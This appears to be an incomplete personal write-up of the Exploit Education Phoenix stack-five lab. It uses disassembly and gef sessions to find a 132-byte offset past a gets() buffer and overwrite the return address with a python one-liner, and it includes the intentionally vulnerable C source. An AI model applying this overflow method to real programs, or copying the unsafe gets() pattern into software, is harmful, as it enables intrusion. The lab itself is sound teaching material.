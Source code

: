 # Phoenix Stack5
### Result
### Learning
This challenge started with a question:

> As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

You had to overwrite the return address and jump to self-written / downloaded `shellcode`.  Invoking your own `shellcode` was possible as the stack5 used `gets`.

### Calculate buffer to overflow
```
/ (fcn) sym.start_level 36
|           0x000104f0      80d04de2       sub sp, sp, 0x80   <-- space for local var
|           0x000104f4      84304be2       sub r3, fp, 0x84   <-- same as above
|           0x000104f8      0300a0e1       mov r0, r3                  ; char *s
|           0x000104fc      9dffffeb       bl sym.imp.gets             ; char *gets(char *s)
```
The bytes allocated when setting up the `start_level Stack` suggested a `128 buffer` and a `4 byte pointer`.  Looking at the disassembled function, I guessed the `4 byte pointer` was the actual reference to the buffer, as opposed to the `return char *` that was passed back to the caller with `gets`.

### Debugger Analysis
##### Verify the Buffer size
```
gef> b *start_level + 24      <-- // breakpoint on first instruction after gets()

gef> disas start_level
Dump of assembler code for function start_level:
   0x000104e8 <+0>:	push	{r11, lr}
   0x000104ec <+4>:	add	r11, sp, #4
   0x000104f0 <+8>:	sub	sp, sp, #128	; 0x80.      <-- re-affirm size of buffer
   0x000104f4 <+12>:	sub	r3, r11, #132	; 0x84
   0x000104f8 <+16>:	mov	r0, r3
   0x000104fc <+20>:	bl	0x10378 <gets@plt>
=> 0x00010500 <+24>:	nop			; (mov r0, r0)
   0x00010504 <+28>:	sub	sp, r11, #4
   0x00010508 <+32>:	pop	{r11, pc}
```
You could read the disassembled code to see the Char buffer size.
```
gef> p/u 0x80
$5 = 128
```
##### Return Address
```
gef> r < AAAA

$r11 : 0xfffefd74
$sp  : 0xfffefcf0

// You reached the same answer, regardless of whether you filled the 128-char Buffer
gef> p/u $fp - $sp      
$1 = 132
```
##### Return Address, a better way to find
```
gef> r < AAAA

gef> find $sp, +200,0x0001052c
0xfffefd74
1 pattern found.

gef> p/u 0xfffefd74 - 0xfffefcf0
$11 = 132

// if you didn't guess it, these addresses the stack pointer and the frame pointer:
$sp  : 0xfffefcf0
$r11 : 0xfffefd74
```
##### Overwrite the Return Address
```
gef> r <<< $(python -c 'print "A"*132 + "\x43\x43\x43\x43"')
```
##### Better answers

##### Run the code
```
$ ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAA
```  
##### Symbols
```
// cut down for brevity
[0x000103b4]> is~FUNC
072 0x000004e8 0x000104e8 GLOBAL   FUNC   36 start_level
079 0x0000050c 0x0001050c GLOBAL   FUNC   52 main
002 0x00000378 0x00010378 GLOBAL   FUNC   16 imp.gets
003 0x00000384 0x00010384 GLOBAL   FUNC   16 imp.puts
```
##### Seek and disassemble
```
```
##### Debugger

##### Answer


##### Source code
```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
